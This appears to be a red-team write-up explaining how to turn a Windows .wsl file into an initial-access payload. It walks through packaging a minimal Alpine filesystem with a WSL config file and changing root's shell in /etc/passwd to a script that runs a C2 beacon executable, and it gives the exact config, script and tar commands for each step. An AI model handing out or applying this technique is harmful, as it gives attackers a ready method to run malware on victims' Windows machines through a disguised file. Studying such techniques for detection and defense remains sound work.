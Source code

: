 # WSL Files

When looking into possible new file formats for Initial Access, one really grabbed my attention. By using the following PowerShell one-liner, you can find file extensions available on the workstation. 
When reviewing the results, you might notice that some extensions do not have a designated program for execution:

```powershell
Get-ChildItem Registry::HKEY_CLASSES_ROOT | Where-Object { $_.Name -match '^.*\\\.' } | ForEach-Object { $_.PSChildName }
```

From the output, the `.wsl` file extension was particularly interesting.

We are already familiar with WSL as the **Windows Subsystem for Linux (WSL)**, which allows developers to run a GNU/Linux environment on Windows. While powerful, WSL is traditionally limited to terminal-based interactions. Users can run Linux on the Windows workstation with some capabilities that are limited to the terminal. Reading the documentation for WSL, I found an interesting paragraph highlighting WSL file extensions.

<img width="890" height="228" alt="image" src="https://github.com/user-attachments/assets/afe8b4ed-fa5b-4dd7-8229-d9ccc711368a" />

## Weaponizing a WSL File

To create a weaponized WSL file, three components are required:

1. **An OS (root filesystem)**
2. **A WSL configuration file**
3. **A payload that connects back to a C2 server**

### File Size Concerns

Initially, I was concerned about the file size. My first demo was around **100MB**, which was excessive since I didn't need full OS capabilities just a way to run a command or payload.

Thanks to a tweet, I discovered **Alpine Linux**, a great choice due to its minimal file size (~8MB).

### The WSL Configuration File

The **WSL configuration file**, which only needs the `[oobe]` tag and a default name to function. This config file must be placed under the `/etc` directory.

Example `wsl-distribution.conf`:

```ini
[oobe]
defaultName = CalcWSL
```

### Crafting the Payload

This part was tricky. While the WSL config file supports a `command` tag, it didn’t reliably execute across distributions (Ubuntu, Debian, Alpine). For example:

- **Debian**: I could simply replace the `.bashrc` file with my commands/payload and it worked.
- **Alpine**: This didn’t work on the first run. To make it reliable, I had to modify the `passwd` file.

By editing the `passwd` file, I ensured that every time the WSL instance launched **as root**, it would execute a script instead of opening a shell.

Modified `/etc/passwd` line:

```
root:x:0:0:root:/root:/root/launch.sh  # <- Path to Script
```

### The `launch.sh` Script

```sh
#!/bin/sh
exec /root/beacon_x64.exe
```

This script executes the beacon payload. Once the script and payload are set we should give them execution properties

```sh
chmod +x launch.sh

chmod +x beacon_x64.exe
```

## Compiling the WSL Root Filesystem

Once you have:

- The OS (e.g., Alpine Linux)
- The `wsl-distribution.conf` configuration file
- The payload and launch script

You can compile everything into a WSL-compatible tarball:

```bash
tar --numeric-owner -cf Alpine.tar -C /tmp/alpine/ .
```

This results in a small `.tar` which we simply rename to the `WSL` extension.

## Demo:
https://github.com/user-attachments/assets/e018627d-a896-4839-b891-28d70acfab49


